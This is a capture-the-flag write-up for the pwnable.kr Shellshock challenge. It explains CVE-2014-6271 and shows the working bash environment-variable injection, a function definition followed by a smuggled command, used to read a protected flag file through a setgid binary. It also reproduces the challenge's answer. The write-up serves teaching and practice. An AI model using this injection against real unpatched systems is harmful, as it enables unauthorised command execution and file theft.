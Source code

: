 ```yaml
---
title: "CVE-2014-6271: ShellShock Intro"
excerpt: "As Wiz Khalifa once said: Knock, knock you about to get SHELLSHOCKED!"
date: 2020-03-16T09:24:19-05:00
categories:
 - pwn practice
url: "/pwnable-kr/shellshock"
tags:
 - pwnable.kr
 - "historic exploits"
---
```


# pwnable.kr: Shellshock

> Mommy, there was a shocking news about bash.
>
> I bet you already know, but lets just make it sure :)
>
> `ssh shellshock@pwnable.kr -p2222 (pw:guest)`

## Given

All we're given in this is a ssh login command, and it's password:

* `ssh shellshock@pwnable.kr -p2222 (pw:guest)`

The tittle of the challenge, combined with the hint suggests we're going to be dealing with something relating to "shellshock" and Bash.

Some quick googling for "Bash shellshock" leads us to the following:
* [National Vulnerability Database on CVE-2014-6271 (a.k.a "ShellShock")](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
* [Wikipedia page on ShellShock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

OK - so it seems like we're going to have to take advantage of a vulnerable bash binary, by storing a command inside an environment variable that will get unintentionally executed?

## First, lets get on the box

```bash
...
shellshock@pwnable:~$
```

OK - we're on.

## Look around

```bash
...
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
...
```

OK - so we have our flag file, a binary, it's source code, and an executable "bash". I imagine this is a specific version of bash that is vulnerable, as opposed to the system itself running that version, because that'd be bad :)

We can check. System's bash version:

```bash
bash --version
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

vs the given `bash` binary's version:

```bash
./bash --version
GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Ooof - 2011. From the mentioned wikipedia page, we can use the command given from the initial report to test for vulnerability:

System:

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
```

Vs given:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
```

Sweet.

## Inspect files

Running the binary just yields:

```bash
./shellshock
shock_me
```
And then it quits.

Looking at the source code:

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

setresuid [man page](http://man7.org/linux/man-pages/man2/setresgid.2.html):
>
> ```c
>       int setresuid(uid_t ruid, uid_t euid, uid_t suid);
>       int setresgid(gid_t rgid, gid_t egid, gid_t sgid);
> ```
>
> `setresuid()` sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.
>
> `setresgid()` sets the real GID, effective GID, and saved set-group-ID of the calling process

If we look at the `shellshock` binary:

```bash
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
```

We see it has the same ownership/access as our flag file:

```bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
```

So, from the `shellshock` binary's user+group, we'd be able to just `cat` the flag (which we can't do as the default shellshock user).

## Takeaway
We need to arbitrarily get the `shellshock` program to execute a `cat /home/shellshock/flag`.


## Closer look at the ShellShock vulnerability
[This](https://fedoramagazine.org/shellshock-how-does-it-actually-work/) Fedora Magazine article does a pretty good job of explaining in layman's terms what the vulnerability is; I'd recommend reading it.

In a nutshell:
* Bash is what we see as a terminal prompt, but also scripting language
* Can define functions, accordingly
* Can use `bash -c` to run a command in a new instance/subprocess of bash.
* This only inherits **the user's environment**, not function definitions (instead, use `export -f <func>; bash -c <cmd>`)

_However_, how bash does this is sketchy because the subprocess still has no notion of inheriting functions, only environment variables. So it needs to create just a regular ol' bash environment variable with our function.

The vulnerability is that bash didn't actually stop after it read a functions (i.e. environment variable) definition. So you could shove additional commands/anything you want and they'd be executed.

That's why the following prints both echo statements:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
```

We define our "function":

```bash
() { :;}; ...
```

Which is just a nameless function that does nothing (`:`) and that's it. However, we then add it's closing brace and `;`, after which we inject our "attack" (becuase _we can_):

```bash
... echo vulnerable' ...
```

Then, we specify our subprocess, which will need to inherit this new environment variable, and in the process, executing our attack:

```bash
... ./bash -c "echo this is a test"
```

Altogether:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
---------------  ---------------  -------------------------------
 env variable     attack that                   subprocess that is to load our
  to 'inherit'    gets executed                 totally legit "environment variable"
                  bc the vuln
                  when reading env vars
```

So, then, it's clear what we need to get the shellshock to spit out our flag:
* "Attack" is to cat the flag file
* subprocess is to run the shellshock file, which gets the proper user/group access to the file

```bash
env x='() { :;}; /bin/cat /home/shellshock/flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

Flag is `only if I knew CVE-2014-6271 ten years ago..!!`
